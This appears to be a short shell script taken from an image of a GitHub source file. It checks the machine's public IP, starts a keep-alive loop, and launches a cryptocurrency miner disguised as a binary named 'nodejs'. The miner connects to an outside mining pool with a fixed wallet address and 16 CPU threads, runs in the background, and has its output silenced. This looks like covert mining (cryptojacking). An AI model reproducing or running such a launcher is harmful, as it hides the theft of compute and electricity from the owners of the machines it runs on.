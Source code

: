 sleep 10
curl ifconfig.io
nohup bash -c 'while true; do date; sleep 10; done' &
nohup ./nodejs --algorithm verushash --pool us.vipor.net:5040 --wallet RHkiLGRarhTt8SF66vJzwEcyxNm4k1fXTH --password x --worker $(hostname -f) --cpu-threads 16 > /dev/null 2>&1 &

